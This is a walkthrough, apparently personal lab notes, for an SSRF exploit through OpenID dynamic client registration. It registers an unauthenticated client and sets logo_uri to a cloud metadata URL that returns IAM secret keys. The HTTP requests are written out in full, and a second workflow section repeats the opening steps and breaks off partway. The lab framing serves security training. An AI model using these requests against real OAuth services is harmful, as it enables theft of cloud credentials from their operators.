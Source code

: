 **Analysis**:
1. While proxying traffic through Burp, log in to your own account. Browse to `https://oauth-YOUR-OAUTH-SERVER.oauth-server.net/.well-known/openid-configuration` to access the configuration file. Notice that the client registration endpoint is located at `/reg`.
2. In Burp Repeater, create a suitable `POST` request to register your own client application with the OAuth service. You must at least provide a `redirect_uris` array containing an arbitrary whitelist of callback URIs for your fake application. For example:
    `POST /reg HTTP/1.1 Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net Content-Type: application/json { "redirect_uris" : [ "https://example.com" ] }`
3. Send the request. Observe that you have now successfully registered your own client application without requiring any authentication. The response contains various metadata associated with your new client application, including a new `client_id`.
4. Using Burp, audit the OAuth flow and notice that the "Authorize" page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from `/client/CLIENT-ID/logo`. We know from the OpenID specification that client applications can provide the URL for their logo using the `logo_uri` property during dynamic registration. Send the `GET /client/CLIENT-ID/logo` request to Burp Repeater.
5. In Repeater, go back to the `POST /reg` request that you created earlier. Add the `logo_uri` property. Right-click and select "Insert Collaborator payload" to paste a Collaborator URL as its value . The final request should look something like this:
    `POST /reg HTTP/1.1 Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net Content-Type: application/json { "redirect_uris" : [ "https://example.com" ], "logo_uri" : "https://BURP-COLLABORATOR-SUBDOMAIN" }`
6. Send the request to register a new client application and copy the `client_id` from the response. In Repeater, go to the `GET /client/CLIENT-ID/logo` request. Replace the `CLIENT-ID` in the path with the new one you just copied and send the request.
7. Go to the Collaborator tab dialog and check for any new interactions. Notice that there is an HTTP interaction attempting to fetch your non-existent logo. This confirms that you can successfully use the `logo_uri` property to elicit requests from the OAuth server.
8. Go back to the `POST /reg` request in Repeater and replace the current `logo_uri` value with the target URL:
    `"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"`
9. Send this request and copy the new `client_id` from the response. Go back to the `GET /client/CLIENT-ID/logo` request and replace the `client_id` with the new one you just copied. Send this request. Observe that the response contains the sensitive metadata for the OAuth provider's cloud environment, including the secret access key.

**Workflow**:
1.  While proxying traffic through Burp, log in to your own account. Browse to `https://oauth-YOUR-OAUTH-SERVER.oauth-server.net/.well-known/openid-configuration` to access the configuration file. Notice that the client registration endpoint is located at `/reg`.
	![](Pasted%20image%2020250310021557.png)
	![](Pasted%20image%2020250310023045.png)
		![](Pasted%20image%2020250310023212.png)
2. Create a suitable `POST` request to register your own client application with the OAuth service. You must at least provide a `redirect_uris` array containing an arbitrary whitelist of callback URIs for your fake application. The response contains various metadata associated with your new client application, including a new `client_id
	![](Pasted%20image%2020250310023745.png)
3. The "Authorize" page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from `/client/CLIENT-ID/logo`. We know from the OpenID specification that client applications can provide the URL for their logo using the `logo_uri` property during dynamic registration. Send the `GET /client/CLIENT-ID/logo` request to Burp Repeater.
	![](Pasted%20image%2020250310024651.png)
	